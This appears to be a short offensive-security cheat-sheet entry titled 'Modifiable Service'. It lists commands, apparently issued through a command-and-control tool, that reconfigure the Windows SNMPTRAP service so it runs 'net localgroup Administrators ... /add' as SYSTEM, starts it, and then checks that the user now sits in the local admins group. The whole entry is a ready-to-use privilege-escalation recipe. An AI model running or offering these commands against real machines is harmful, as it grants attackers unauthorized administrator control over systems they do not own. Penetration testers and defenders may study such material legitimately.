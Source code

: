 # Modifiable Service

Add a domain user to the local admins group on the machine

    execute -o sc qc SNMPTRAP
    execute -o sc config SNMPTRAP binPath= "net localgroup Administrators domain.com\\user /add" obj= "NT AUTHORITY\\SYSTEM"
    execute -o sc config SNMPTRAP start= auto
    execute -o sc qc SNMPTRAP
    execute -o sc start SNMPTRAP


Check if now in local admins

    execute -o net localgroup administrators
